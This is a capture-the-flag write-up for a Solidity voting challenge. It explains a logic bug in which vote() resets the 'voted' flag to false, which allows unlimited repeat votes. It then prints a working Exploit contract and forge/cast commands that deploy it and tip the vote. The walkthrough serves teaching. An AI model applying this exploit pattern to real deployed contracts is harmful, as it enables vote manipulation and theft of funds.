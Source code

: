 This is some sort of voting, but it seems something is just not right? Well, let's see what the condition of *Setup.sol::isSolved()* &nbsp;  
&nbsp;  

```solidity
pragma solidity ^0.8.25;

import "./PrizePool.sol";
import "./Participants.sol";

contract Setup{
    PrizePoolBattle public immutable prizepool;
    Participant1 public immutable participant1;
    Participant2 public immutable participant2;
    Participant3 public immutable participant3;

    constructor() payable{
        require(msg.value >= 9 ether, "Need 9 ether to start challenge");
        prizepool = new PrizePoolBattle();
        participant1 = new Participant1{value: 5 ether}(address(prizepool));
        participant2 = new Participant2{value: 1 ether}(address(prizepool));
        participant3 = new Participant3{value: 3 ether}(address(prizepool));
    }

    function isSolved() public view returns(bool){
        (, uint winner) = prizepool.getWinner();
        return winner == 1;
    }

}
``` 
&nbsp;  

Well, the *isSolved()* function only returns true if the winner is the 1st party; we have to look into the *PrizePool Contract* to figure this out, but now let's analyze the constructor. It first deploys the *Prizepool Contract* and another 3 participants with each 5, 1, and 3 Ether, now that we know what the initial setup is, let's see what the *Participant Contract* is all about. &nbsp;  
&nbsp;  
```solidity
contract Participant1{
    PrizePoolBattle public immutable prizepool;

    constructor(address _target) payable{
        prizepool = PrizePoolBattle(_target);
        prizepool.addVoter{value: 5 ether}("Michelio");
        prizepool.vote(2);
    }
}
```
&nbsp;  
We are going to take a look at the first only since the other 2 are similar; it first calls the *addVote()* with 5 Ether and "**Michelio**" as name, I guess, and it votes for the 2nd Party, oh no, our competitor, it seems. Well, let's see the real deal now, the *Prizepool Contract* &nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.25;

contract PrizePoolBattle{
    struct Candidate {
        uint id;
        string name;
        uint voteCount;
    }

    struct Voter {
        uint id;
        string name;
        uint256 weight;
        bool voted;
    }

    mapping(uint => Candidate) public candidates;
    mapping(uint => Voter) public voters;
    mapping(address => bool) public votersExist;
    mapping(address => uint) public votersID;
    uint public candidatesCount;
    uint public votersCount;
    uint public winner;
    bool public winnerDeclared = false;

    event Voted(address indexed voter, uint indexed candidateId);
    event Winner(uint indexed candidateId, string name);

    modifier checkWinner(uint _candidateId) {
        _;
        if (candidates[_candidateId].voteCount >= 10 ether) {
            winnerDeclared = true;
            winner = _candidateId;
            emit Winner(_candidateId, candidates[_candidateId].name);
        }
    }

    constructor() {
        addCandidate("ENUMA");
        addCandidate("ALPHA");
    }

    function addCandidate(string memory _name) internal {
        require(
            keccak256(abi.encodePacked(_name)) == keccak256(abi.encodePacked("ENUMA")) ||
            keccak256(abi.encodePacked(_name)) == keccak256(abi.encodePacked("ALPHA")),
            "Only ENUMA or ALPHA can be added as candidates"
        );
        candidatesCount++;
        candidates[candidatesCount] = Candidate(candidatesCount, _name, 0);
    }
}
```
&nbsp;  
Let's view it part by part to make it more understandable. The first part is, of course, the constructor. When this contract is deployed, it immediately calls the *addCandidate()* function. This function will add new candidates based on the *Id*, as we can see on the *Struct Candidate* on the first few lines. The *candidateCounts()* is the one responsible for giving the *Id*, and the party can only be either *ENUMA* or *ALPHA*. Based on the constructor, we know that *ENUMA* has the *Id* of 1 and *ALPHA* has the *Id* of 2. &nbsp;  
&nbsp;  
The modifier *checkWinner()* will check at the end of a function run; if a candidate has a vote of 10, it will declare the *winner*. Let's continue to the rest of the functions. &nbsp;  
&nbsp;  
```solidity
    function addVoter(string memory _name) public payable{
        require(!votersExist[msg.sender], "Voter has already been added.");
        votersCount++;
        uint256 weight = msg.value;
        voters[votersCount] = Voter(votersCount, _name, weight, false);
        votersID[msg.sender] = votersCount;
        votersExist[msg.sender] = true;
    }

    function vote(uint _candidateId) public checkWinner(_candidateId) {
        require(votersExist[msg.sender], "You are not an eligible voter.");
        require(!winnerDeclared, "The winner has already been declared.");
        require(_candidateId > 0 && _candidateId <= candidatesCount, "Invalid candidate ID.");
        uint id = votersID[msg.sender];
        require(voters[id].voted == false, "You already vote!");
        voters[id].voted = false;
        candidates[_candidateId].voteCount += voters[id].weight * 1;
        emit Voted(msg.sender, _candidateId);
    }

    function getCandidateVoteCount(uint _candidateId) public view returns (string memory name, uint voteCount) {
        Candidate storage candidate = candidates[_candidateId];
        return (candidate.name, candidate.voteCount);
    }

    function getWinner() public view returns(string memory name, uint id){
        Candidate storage candidate = candidates[winner];
        return (candidate.name, candidate.id);
    }
```
&nbsp;  
We got 4 functions here; the first one is *addVoter()*; this function seems to check whether someone is already registered or not, and after that, it will increase the *votersCount()* and push it to the struct of Voter. What we know here is that the weight of someone's vote is determined by the money they put in, and at the end, it ensures that we can only register once by changing the *votersExist()* to true. &nbsp;  
&nbsp;  
Next up is the *vote()* function. We can see that the modifier *checkWinner()* is implemented here, meaning this function will be the one that triggers the change. It first has 3 checks to check whether the voter exists, check if the winner has been selected, and the one we voted to be either 1 or 2 only. We can see there it will get our ID and check whether we already vote or not by checking the *voted* attribute on our struct if it's already *true*, but here is the strange thing: after the check, instead of setting the *voted* to true, it resets us to *false*, meaning even if we have a very low weight, we can vote multiple times! Here is the logic error bug! &nbsp;  
&nbsp;  
The next 2 functions are only for getting the state of the vote count anytime and the winner if the winner is selected. So let's wrap up about what we have now. &nbsp;  
&nbsp;  

- Party Number 2 (*ALPHA*) has 9 Votes already (5 + 1 +3) from other Participants
- Party Number 1 (*ENUMA*) has 0 Vote
- We only have 1.2 Ether (based on *cast balance*)
- We have a logic error where we can vote unlimitedly. &nbsp;  
&nbsp;  

We have 2 choices here: we can do it manually by registering via *addVoter()* and send the vote 10 times, or we can make a smart contract that does that. In this approach, I'm going to create a smart contract that does just that, and here is the code.
&nbsp;  
```solidity
pragma solidity ^0.8.25;

import "./PrizePool.sol";
import "./Setup.sol";

contract Exploit{
    Setup public setup;
    PrizePoolBattle public pp;

    constructor(address payable _setup) payable{
        setup = Setup(_setup);
        pp = PrizePoolBattle(address(setup.prizepool()));
    }

    function exploit() public {
        pp.addVoter{value: 1 ether}("Louis");
        for(uint a = 0 ; a < 10 ; a++){
            pp.vote(1);
        }
    }

}
```
&nbsp;  
Here is how we can deploy our Exploit contract and solve the lab &nbsp;  
&nbsp;  
```bash
// Deploying the Exploit
forge create src/voting-frenzy/$EXPLOIT_FILE:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --construcot-args $SETUP_ADDR --value 1ether

// Exploit the Contract
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "exploit()"
```
&nbsp;  
Running the command above, you should've exploited the contract and gotten your flag.